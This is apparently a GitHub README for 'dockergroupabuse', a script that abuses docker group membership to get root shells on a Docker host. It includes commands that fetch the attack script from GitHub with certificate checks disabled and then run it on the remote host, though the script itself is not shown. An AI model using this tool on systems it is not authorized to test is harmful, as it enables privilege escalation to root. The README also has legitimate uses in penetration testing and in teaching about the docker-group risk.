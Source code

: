 # dockergroupabuse

This interactive script allows you to abuse the `docker` group to get root shells from minimal images that are already stored locally on the Docker host system.

## Usage

Copy the contents of [`rootshell.sh`](rootshell.sh) to the clipboard and paste into `rootshell.sh` on the remote Docker host system.

Or if you have Internet access on the remote host, run one of the following commands:

- `curl -skLO https://raw.githubusercontent.com/phx/dockergroupabuse/master/rootshell.sh`

- `wget --no-check-certificate https://raw.githubusercontent.com/phx/dockergroupabuse/master/rootshell.sh`

### Remote Docker Host:

```
chmod +x rootshell.sh
./rootshell.sh
```

Feel free to modify [`rootshell.sh`](rootshell.sh) as necessary, but this script has worked with all images and systems I have tested.

### About `sh` vs `bash`

I have defaulted to using `sh` instead of `bash` in the commands in order to be cross-compatible with Alpine-based minimal images and such.  Feel free to call `bash` from `sh` after getting the shell.
